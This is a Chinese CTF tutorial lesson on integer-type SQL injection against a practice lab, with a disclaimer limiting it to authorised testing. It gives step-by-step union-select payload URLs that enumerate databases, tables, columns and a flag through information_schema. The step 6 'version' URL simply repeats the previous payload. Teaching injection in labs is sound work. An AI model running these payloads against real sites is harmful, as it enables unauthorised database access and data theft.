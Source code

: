 
#第二节：sql注入之sql注入整型报错注入

##2.0：免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##2.1：上节课程答疑

###2.1.1：sql注入的最终目的是什么？

sql注入的最终目的就是将非法sql语句带入数据库中进行查询，以此来获取数据库中的数据，有些时候也可以通过sql注入获取系统的权限。

###2.1.2：我们如何才能实现这个最终目的

简单的来说，这个问题可以解释为sql注入的流程是什么。一次简单的sql注入的流程大致如下：

>1.判断注入点

>2.判断注入类型

>3.获取表名、列明、字段名

>4.查寻

##2.2:什么是整型注入

sql注入从分类上讲大概可以分为整形注入和字符型注入。

在网站正常的功能设计中，一般通过传入参数的不同来返回不同的内容。如ID、年龄等。如果输入的参数为整形，且存在sql注入。则可以被认为存在sql注入。如果传入的参数为字符，且存在sql注入，则可以认为存在字符型注入。正常情况下，字符型注入需要先进行闭合然后在进行注入。

> 整型注入后台sql语句为 : select * from  table where id =8

>字符型注入的后台sql语句为：select * from tables where username="admin"

##2.3:整型注入练习环境

>http://xx.xx.xx.xx:8080/sql/Less-2/index.php?id=1

##2.4:sql注入实战

1.判断注入点

在id=1的后面添加一个单引号，然后报出错误。说明此处存在注入。

![](img/2.3/1.png)

加单引号的目的是为了引发报错，从而证明此处存在注入。报错信息说明此处有语法错误.

2.报错语句分析

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

我们刚刚在id=1后面添加了一个单引号，此时在后台执行的sql语句为：

>select * from table where id=1'

报错语句中一共有三个引号，其中最左侧，和最右侧的两个引号是语句中为了标明错误的。与后台执行的语句中。剩下的那个引号是我们刚刚自己的添加的。此时，便可以判断这个漏洞为整型sql注入。

3.union联合注入。

整型注入的手工注入一般采用union 联合注入，union的作用是将两个sql语句进行联合。使用时需要注意一下几点：

- union前后的两个sql语句选择的列数必须相同才可以。同时列也必须有相似的数据类型。

- 当两个sql语句进行联合操作时，当前一个语句选择的内容为空，这时候才可以讲后面的语句执行后的结果显示出来。

4.判断列数。

因union联合查询要求前后列数一致，故先判断列数。

>url ： http://xx.xx.xx.xx:8080/sql/Less-2/index.php?id=1 order  by 3--+

order by的意思是对数据进行排序，当order by为4时，报错。故此时列数为3列。

![](img/2.3/2.png)

--+表示注释，注释掉后方无用的内容。在注入时，注释必不可少。

5.判断回显位置

在这个网页上，显示数据库查询结果的只有两行。但是union语句要求前后列数一致。我们此时我们要进行判断那一列上的查询会将结果显示出来。

>url : http://xx.xx.xx.xx:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

![](img/2.3/3.png)

6.查寻数据库版本

由上可知，在2,3处会将查询的结果给显示出来，所以构造语句：

>url:http://xx.xx.xx.xx:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

![](img/2.3/4.png)

得出版本为5.5.59.大于5.故存在information_schema.

7.查询数据库名

>url : http://xx.xx.xx.xx:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata--+

![](img/2.3/5.png)

group_concat: group_concat函数是典型的字符串连接函数,讲查询结果以逗号分隔。连接在一起。

8.查询表名

发现有flag这个数据，查询列名的url如下：

>url :  http://xx.xx.xx.xx:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+

![](img/2.3/6.png)

9.查询列名

>url : http://xx.xx.xx.xx:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27flag%27--+

![](img/2.3/7.png)

10.查询数据

>url : http://xx.xx.xx.xx:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,flag%20from%20flag%20--+

![](img/2.3/8.png )

123456789即为我们所需数据。到此一次sql手工注入完成。

##2.5课后习题

课后习题地址：http://xx.xx.xx.xx/challenges#%E6%95%B4%E5%9E%8B%E6%B3%A8%E5%85%A5

##2.6 小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.3/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img/2.3/0.jpg)
